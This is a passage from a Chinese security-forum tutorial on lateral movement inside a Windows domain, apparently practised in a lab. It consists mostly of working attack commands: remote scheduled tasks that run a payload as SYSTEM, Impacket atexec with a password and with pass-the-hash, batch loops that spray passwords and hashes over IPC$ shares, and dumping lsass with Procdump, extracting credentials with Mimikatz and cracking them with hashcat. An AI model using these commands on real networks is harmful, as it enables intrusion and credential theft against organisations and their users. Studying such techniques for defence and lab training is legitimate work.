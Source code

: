 


Windows server 2012及以上使用schtasks命令  
Schtasks /create /s 192.168.202.148 /ru “SYSTEM” /tn executefile /sc DAILY /tr
c:/h4.exe /F  
Schtasks /run /s 192.168.202.148 /tn executefile /i  
Schtasks /delete /s 192.168.202.148 /tn executefile /f

##
[](https://bbs.pediy.com/thread-268289.htm#2.2%E4%BD%BF%E7%94%A8%E7%AC%AC%E4%B8%89%E6%96%B9%E5%B7%A5%E5%85%B7%E5%8C%85impacket%E4%B8%ADatexec.exe)2.2使用第三方工具包impacket中atexec.exe

Atexec.exe test/administrator:zxcvbnm123@192.168.202.148 “whoami”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_3P6X4982CMWTA4X.png)  
Atexec.exe -hashes :fac5d668099409cb6fa223a32ea493b6
test/administrator@192.168.202.148 “whoami”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_PWNYDUUDXUMDE29.png)

##
[](https://bbs.pediy.com/thread-268289.htm#2.3%E7%BB%93%E5%90%88%E6%89%B9%E5%A4%84%E7%90%86%E5%88%A9%E7%94%A8%EF%BC%9A)2.3结合批处理利用：

已知密码和用户批量连接ip:  
FOR /F %%i in (ips.txt) do net use \%%i\ipc$ “password”
/user:test\administrator  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_YU7YHH9HA3ZR6C2.png)  
已知用户和ip批量连接密码：  
FOR /F %%i in (pass.txt) do net use \192.168.202.148\ipc$ “%%i”
/user:test\administrator  
已知用户和ip批量连接hash：  
FOR /F %%i in (hash.txt) do atexec.exe -hashes :“%%i”
test/administrator@192.168.202.148 “whoami”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_XH5YQNN427T45EU.png)

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%B8%89%E3%80%81%E5%88%A9%E7%94%A8hash%E8%BF%9B%E8%A1%8C%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)三、利用hash进行横向移动

在windows server 2012以上的版本默认关闭wdiget，攻击者无法在内存中获取明文密码。  
在windows server 2012以下的版本如果安装了KB2871997补丁，也无法获取明文密码。

##
[](https://bbs.pediy.com/thread-268289.htm#3.1%E8%8E%B7%E5%8F%96%E7%B3%BB%E7%BB%9Fhash)3.1获取系统hash

Procdump.exe -accepteula -ma lsass.exe lsass.dmp(需要管理员权限)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_S2VPY86S5B8KW7W.png)  
利用Mimikatzm相关命令获取dmp中的hash：  
Privilege::debug  
Sekurlsa::minidump lsass.dmp  
Sekurlsa::logonPasswords full  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_G5BB6569HJ4AAV8.png)  
可以通过hashcat爆破hash值，获得对应的明文密码：  
Hashcat -a 0 -m 1000 hashfile passfile
